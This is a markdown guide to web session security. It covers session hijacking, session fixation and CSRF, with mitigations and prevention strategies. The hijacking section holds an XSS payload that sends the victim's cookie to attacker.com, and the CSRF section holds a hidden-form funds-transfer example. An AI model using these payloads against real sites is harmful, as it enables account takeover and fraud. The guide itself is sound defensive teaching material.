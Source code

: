 # Session Security

## Overview
Session security vulnerabilities occur when the mechanisms used to manage user sessions—typically through cookies or tokens—are poorly implemented. These vulnerabilities allow attackers to hijack active sessions, fix session identifiers to gain unauthorized access, or forge requests to perform actions on behalf of users. Common issues include weak session ID generation, improper session timeouts, and insufficient protection against Cross-Site Request Forgery (CSRF). Understanding these risks is crucial for securing web applications and identifying exploitable weaknesses in bug bounty programs.

## Session Hijacking
- **Description**: Session hijacking involves an attacker stealing a valid session token, often through techniques like Cross-Site Scripting (XSS) or network sniffing. Once obtained, the attacker can impersonate the victim, accessing their account without credentials.
- **Examples**: An XSS payload like `<script>new Image().src='http://attacker.com/?c='+document.cookie;</script>` sends the session cookie to the attacker's server. Weak transport (HTTP instead of HTTPS) allows sniffing via tools like Wireshark.
- **Mitigation**: Set the `HttpOnly` flag to prevent JavaScript access to cookies, use the `Secure` flag to enforce HTTPS, and employ encryption (TLS) to protect transmission.

## Session Fixation
- **Description**: In session fixation, an attacker provides a victim with a known session ID before authentication. If the application accepts this ID post-login without regeneration, the attacker can use it to hijack the session.
- **Examples**: An attacker sends a link with `?sessionid=abc123` to the victim. After login, the same ID remains active, allowing the attacker to reuse it.
- **Mitigation**: Generate a new session ID upon successful authentication and invalidate the old one. Implement session ID rotation to prevent reuse of pre-set values.

## CSRF (Cross-Site Request Forgery)
- **Description**: CSRF tricks a user into performing actions on a site where they are authenticated, typically via a forged HTTP request (GET or POST) from another domain. This exploits the trust a site has in the user’s browser session.
- **Examples**: A malicious site hosts a hidden form `<form action="https://bank.com/transfer" method="POST"><input type="hidden" name="amount" value="1000">` that submits when loaded, transferring funds if the user is logged into `bank.com`.
- **Mitigation**: Use unique, per-request CSRF tokens validated server-side, apply the `SameSite` cookie attribute (e.g., `SameSite=Strict`), and restrict sensitive actions to POST with token checks.

## Additional Considerations
- **Session Timeout**: Sessions should expire after a reasonable period (e.g., 15-30 minutes of inactivity for sensitive apps) to limit exposure if a token is compromised. Implement absolute timeouts (e.g., 24 hours) for added security.
- **Entropy and Randomness**: Session IDs must be cryptographically random (e.g., 128-bit or more) to resist brute-force attacks. Weak IDs (e.g., sequential numbers) are easily guessed.
- **Logout Functionality**: Ensure logout invalidates the session ID server-side, not just client-side, to prevent reuse.

## Prevention Strategies
- Enforce strong, random session IDs with sufficient entropy (e.g., UUID v4 or secure random generators).
- Set appropriate session timeouts based on application sensitivity, balancing security and user experience.
- Use the `SameSite` attribute to mitigate CSRF, combined with secure cookie flags and token validation.
- Regularly audit session management code for weaknesses, using tools like OWASP ZAP to simulate attacks.

This guide provides a detailed foundation for understanding session security, drawing from web security best practices and the provided cheat sheet. Explore further with resources like [OWASP Session Management](https://owasp.org/www-community/attacks/Session_fixation).